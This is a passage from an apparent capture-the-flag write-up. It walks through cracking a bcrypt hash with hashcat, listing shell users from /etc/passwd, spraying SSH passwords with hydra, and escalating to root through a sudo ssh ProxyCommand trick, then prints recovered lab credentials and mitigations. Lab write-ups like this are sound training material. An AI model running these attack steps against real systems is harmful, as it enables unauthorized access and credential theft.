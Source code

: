 Let’s crack it:

```bash
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2023.png)

Le’t see user with shell:

```bash
cat /etc/passwd | grep sh$
```

![image.png](image%2024.png)

Let’s perform password spray for this accounts the password we found:

```bash
hydra -L users -p manchesterunited  $IP ssh
```

![image.png](image%2025.png)

## Shell as josh

Checking sudo privileges I see:

![image.png](image%2026.png)

[GTFOBins-sudo-ssh](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

## Credentials

```bash
postgres:Vg&nvzAQ7XxR
josh:manchesterunited
```

## Mitigation

- Disable or secure **Spring Boot Actuator endpoints** in production environments.
- Sanitize all **user inputs** to prevent command injection.
- Avoid **hardcoding credentials** in application binaries or config files.
- Use **hashed and salted passwords**, and enforce strong password policies.
- Restrict `sudo` permissions to **only necessary commands and users**, and audit them regularly.
